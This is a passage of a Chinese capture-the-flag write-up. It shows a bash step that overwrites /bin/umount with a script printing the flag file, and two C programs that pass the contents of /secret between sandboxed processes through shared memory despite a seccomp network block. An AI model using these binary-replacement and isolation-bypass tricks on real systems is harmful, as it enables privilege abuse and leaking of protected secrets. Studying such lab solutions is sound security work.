 ```bash
rm /bin/umount
echo "#!/bin/sh" > /bin/umount
echo "cat /chall" >> /bin/umount
chmod +x /bin/umount
exit
```

<br>

### 26. 看不见的彼方

`seccomp` 限制了网络的使用

创建管道似乎需要能访问相同路径的文件，行不通。

找了个共享内存的代码 [进程间的通信方式（一）：共享内存](https://zhuanlan.zhihu.com/p/37808566)。但是由于不能访问相同目录，把 `ftok` 改成特定值即可（百度百科偶尔还是有用处的）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/shm.h>

#define BUFSZ 512

int main() {
    key_t key = 0x1234;
    char secret[100];
    // open file /secret and read
    FILE* fp = fopen("/secret", "r");
    fgets(secret, 100, fp);

    int shmid = shmget(key, BUFSZ, IPC_CREAT | 0666);  // 创建共享内存
    char* shmadd = shmat(shmid, NULL, 0);              // 映射
    bzero(shmadd, BUFSZ);                              // 共享内存清空
    strcpy(shmadd, secret);                            // 写入共享内存
    return 0;
}
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/shm.h>

#define BUFSZ 512

int main() {
    key_t key = 0x1234;
    int shmid = shmget(key, BUFSZ, IPC_CREAT | 0666);  // 打开共享内存
    char* shmadd = shmat(shmid, NULL, 0);              // 映射
    printf("%s", shmadd);                              // 读共享内存区数据
    int ret = shmdt(shmadd);                           // 分离共享内存和当前进程
    shmctl(shmid, IPC_RMID, NULL);                     // 删除共享内存
    return 0;
}
```

